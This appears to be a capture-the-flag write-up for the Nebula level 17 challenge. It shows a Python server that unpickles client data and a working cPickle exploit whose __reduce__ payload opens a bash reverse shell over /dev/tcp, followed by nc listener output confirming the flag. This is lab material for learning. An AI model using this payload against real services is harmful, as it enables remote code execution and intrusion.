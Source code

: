 ```py
  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

According [documentation](https://docs.python.org/2/library/pickle.html) it is
not safe to use data from untrusted source, so `pickle.loads` on line 14 means RCE:

`Warning The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.`

Our exploit for executing remote shell:

```py
#!/usr/bin/env python

from cPickle import dumps
from os      import system

class Exploit(object):
    def __reduce__(self): return (system, ('bash -i >& /dev/tcp/0.0.0.0/1337 0>&1',))

print dumps(Exploit())
```

```
# Window 1: 
sh-4.2$ nc -l 1337

# Window 2:
sh-4.2$ ./exploit.py
cposix
system
p1
(S'bash -i >& /dev/tcp/0.0.0.0/1337 0>&1'
p2
tp3
Rp4
.

sh-4.2$ ./exploit.py | nc nebula 10007
Accepted connection from 127.0.0.1:42532

# Window 1:
bash: no job control in this shell
flag17@nebula:/$ getflag
getflag
You have successfully executed getflag on a target account
```
